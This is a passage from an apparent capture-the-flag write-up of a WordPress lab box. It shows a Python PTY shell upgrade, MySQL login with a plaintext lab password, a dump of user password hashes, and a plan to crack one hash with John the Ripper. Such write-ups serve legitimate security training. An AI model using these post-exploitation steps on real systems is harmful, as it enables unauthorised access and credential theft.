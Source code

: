 This provided a limited shell as the www-data user.
Spawning a Better Shell

To gain a fully interactive shell, a Python PTY was spawned from the existing shell:

python3 -c 'import pty; pty.spawn("/bin/bash")'

This established a fully functional shell, ready for further enumeration and privilege escalation.

# 4-privilege-escalation-to-diego

The next phase involved escalating privileges from the www-data user to a higher-privileged account.
MySQL Database Access

The wpuser credentials obtained from wp-config.php were used to access the MySQL database.

mysql -u wpuser -p
Enter password: kbLSF2Vop#lw3rjDZ629*Z%G

Dumping wp_users Table

Inside the MySQL prompt, the wordpress database was selected, and the wp_users table was queried to extract user hashes.

show databases;
use wordpress;
select * from wp_users;

The query returned the following user information and their password hashes:

+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key | user_status | display_name           |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wordpress user         |
|  3 |       | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |          | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | Jose Mario Llado Marti |
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | gege                   |
|  5 | diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 | diego         | diego@local        | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | diego                  |
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xavi                   |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+

# Cracking diego's Password

The hash for the user diego ($P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1) was extracted and saved to a file. John the Ripper was then used with the phpass format and the rockyou.txt wordlist to crack the password.
